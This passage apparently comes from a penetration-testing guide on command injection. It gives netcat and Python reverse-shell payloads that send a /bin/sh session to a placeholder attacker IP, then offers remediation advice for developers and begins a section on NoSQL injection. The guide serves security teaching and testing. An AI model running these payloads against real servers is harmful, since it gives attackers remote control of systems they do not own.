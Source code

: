 3.  **Reverse Shell - The Ultimate Goal**:
    The key is to obtain a shell on the server, moving beyond single command injections. Various payloads are used depending on the environment.

    **Classic Netcat Reverse Shell:**
    `ip_address; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> <PORT> >/tmp/f`

    **Python Reverse Shell (if Netcat is unavailable):**
    `ip_address; python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`

#### **Defensive Strategies**

When reporting this vulnerability, you must present specific defensive strategies to the development team.

1.  **Forbid Direct OS Command Calls**: It should be recommended to avoid using functions that directly call the system shell, such as `system()` and `exec()`, and instead use the built-in APIs provided by the programming language. For example, to check if a file exists, using `os.path.exists(filename)` instead of `os.system("ls " + filename)` is a fundamental solution.

2.  **Separate Commands and Arguments**: If external commands must be executed, the command and its arguments should be passed separately to prevent user input from being interpreted by the shell.

      * **Python Example:** By using the `shell=False` option and passing arguments as an array, like `subprocess.run(['ls', '-l', user_input], shell=False)`, the `user_input` is treated as a simple string, and shell metacharacters are not interpreted.

3.  **Input Validation and Escaping**: As a last resort, apply validation based on an 'Allow List' that accepts only permitted characters and guide the team to escape metacharacters with special meaning in the shell (`; | & $ > < \` ' "\`). However, this method is not recommended as it is prone to bypass.

-----

### 2\. NoSQL Injection: Abusing the Flexibility of Modern Databases

With the rise of NoSQL databases like MongoDB, Cassandra, and Redis, a new form of injection has emerged. Although the syntax differs from SQL, the fundamental vulnerability of dynamically constructing queries from untrusted user input remains the same.

#### **The Core Concept**

This attack involves injecting query operators, instead of data, into NoSQL queries (often in JSON object format) to bypass authentication or manipulate data.

#### **Primary Attack Vectors**

  * Anywhere that interacts with the database, such as login forms, user profile views/modifications, and search functions.
  * Especially in parts of RESTful API endpoints that process JSON input.

#### **Exploitation Techniques**
